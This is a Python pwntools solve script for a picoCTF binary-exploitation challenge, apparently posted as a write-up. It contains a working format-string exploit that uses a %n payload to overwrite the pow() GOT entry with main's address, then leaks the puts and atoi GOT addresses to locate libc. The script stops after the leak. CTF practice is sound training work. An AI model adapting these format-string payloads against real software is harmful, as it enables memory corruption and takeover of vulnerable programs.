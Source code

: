 
### full solve code on local

```python
from pwn import *

binary = ELF("chall")
#r = process("./chall")



if not args.REMOTE:
    r = process(binary.path)
    gdb.attach(r, api = True)
    libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")
else:
    r = remote('mars.picoctf.net', 31929)
    #libc = ELF("./libc6_2.31-0ubuntu9.1_amd64.so")


pow_got = binary.got['pow']
main_addr = binary.symbols['main']

log.info(f"Main address: {hex(main_addr)}") # 0x400837
log.info(f"pow() GOT address: {hex(pow_got)}") # 0x601040

payload1 = b"11111111" + p64(pow_got) #+ p64(pow_got+4)

r.sendlineafter(b"A: ",payload1)

#payload2 = b"1_______%1p%11$n--------"
payload2 = b"1_______%" + str(int(main_addr) - 46).encode("ascii") + b"p%11$n--" #4196361

r.sendlineafter(b"B: ",payload2)

r.recvuntil("Calculating for A: ")
log.info("rewrote pow GOT to main")

######################################

def send_payload(r, a, b):
    log.info(f"Sending:\nA:\n{a}\nB:\n{hexdump(b)}")
    r.sendlineafter("A: ", a)
    r.sendlineafter("B: ", b)

def send_format(r, format, values):
    format_prefix = b'1_______'
    values_prefix = b'1_______'
    send_payload(r, format_prefix + format, values_prefix + values)
    out = r.recvline()
    arr = out.split(b" and ")
    res = arr[0].replace(b"Calculating for A: " + format_prefix, b"")
    log.info(f"Received:\n{hexdump(res)}")
    return res

log.info(f"puts() GOT address: {hex(binary.got['puts'])}")

fmt_first_offset = 43
puts_offset_libc = libc.symbols["puts"] #0x0875a0


output = send_format(r, b"%43$s.%44$s.", p64(binary.got["puts"]) + p64(binary.got["atoi"]))

print(output)
```
